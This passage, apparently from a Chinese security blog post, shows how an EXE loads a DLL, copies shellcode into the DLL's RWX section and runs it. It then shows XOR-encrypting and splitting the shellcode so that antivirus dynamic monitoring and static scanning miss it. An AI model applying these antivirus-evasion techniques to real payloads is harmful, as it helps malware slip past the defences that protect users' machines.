 
最后直接执行shellcode

    
    
    void ExecuteCodeFromSection(LPVOID rwxSectionAddr) {  
        //inline assembly execution  
        ((void(*)())rwxSectionAddr)();  
    }  
    

将编译好的exe文件和dll文件放在一起，运行exe后，exe会将DLL加载到自己的进程中，然后往DLL内存位置中复制shellcode，最后运行shellcode。  
效果如下  

![]()  

### 0x03 程序优化

在exe中没有分配内存，也没有创建线程，仅仅是使用了`memcpy`来复制数据，我相信它的能够成功规避杀软对危险函数的动态监控。所以接下需要做的就是修改代码的特征，避免被静态查杀。

这之中最重要的就是对shellcode进行混淆或加密，比如可以实现一个快速而简单的XOR代码来对shellcode进行加解密，当然也可以用其他加密。

新建一个加密程序，将原始shellcode进行XOR处理。

    
    
    #define KEY 0x01   
      
    unsigned char buf[] = "\xff";  
    int main(int argc, char* argv[])  
    {  
        unsigned char c[sizeof(buf)];  
        for (int i = 0; i < sizeof(buf) - 1; i++)  
        {  
            c[i] = buf[i] ^ KEY;  
            printf("\\x%x", c[i]);  
        }  
        printf("\n");  
      
        return 0;  
    }  
    

然后将解密代码放到主程序中，buff数组存储XOR前的数据，rawData存储解密后的数据

    
    
    #define KEY 0x01  
      
    unsigned char buff[] = "\xfd";   
    unsigned char rawData[sizeof(buff)];  
    for (int i = 0; i < sizeof(buff) - 1; i++)  
    {  
      rawData[i] = buff[i] ^ KEY;  
    }  
    

如果觉得光异或不够保险，可以分离一下shellcode再组合。  
如以下代码所示，可使用`memcpy`来复写buf中的shellcode，想复写多少都可以，这样中一定程度上可以混淆特征。

    